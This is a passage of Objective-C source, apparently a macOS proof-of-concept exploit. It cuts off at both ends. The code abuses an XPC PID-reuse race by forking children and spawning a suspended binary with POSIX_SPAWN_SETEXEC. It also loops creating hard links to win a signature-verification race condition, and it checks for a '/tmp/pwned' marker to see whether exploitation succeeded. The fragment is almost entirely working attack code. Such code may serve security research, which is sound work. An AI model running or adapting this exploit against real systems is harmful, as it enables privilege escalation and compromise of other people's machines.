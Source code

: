 ```objectivec
    char target_binary[] = kValid;
    char *target_argv[] = {target_binary, NULL};
    posix_spawnattr_t attr;
    posix_spawnattr_init(&attr);
    short flags;
    posix_spawnattr_getflags(&attr, &flags);
    flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
    posix_spawnattr_setflags(&attr, flags);
    posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

/**
 * Function to perform the PID race condition using children calling the XPC exploit.
 */
void xpc_pid_rc_abuse() {
    #define RACE_COUNT 1
    extern char **environ;
    int pids[RACE_COUNT];

    // Fork child processes to exploit
    for (int i = 0; i < RACE_COUNT; i++) {
        int pid = fork();
        if (pid == 0) {  // If a child process
            child_xpc_pid_rc_abuse();
        }
        printf("forked %d\n", pid);
        pids[i] = pid;
    }

    // Wait for children to finish their tasks
    sleep(3);

    // Terminate child processes
    for (int i = 0; i < RACE_COUNT; i++) {
        if (pids[i]) {
            kill(pids[i], 9);
        }
    }
}

int main(int argc, const char * argv[]) {
    // Create and set execution rights to 'hard_link' file
    system("touch hard_link");
    system("chmod +x hard_link");
    
    // Create thread to exploit sign verification RC
    pthread_t thread;
    pthread_create(&thread, NULL, check_race, NULL);

    while(!pwned) {
        // Try creating 'download' directory, ignore errors
        system("mkdir download 2>/dev/null");

        // Create a hardlink
        // TODO: CHANGE NAME OF FILE FOR SIGN VERIF RC
        system("ln hard_link download/legit_bin");

        xpc_pid_rc_abuse();
        usleep(10000);

        // The payload will generate this file if exploitation is successfull
        if (access("/tmp/pwned", F_OK ) == 0) {
            pwned = true;
```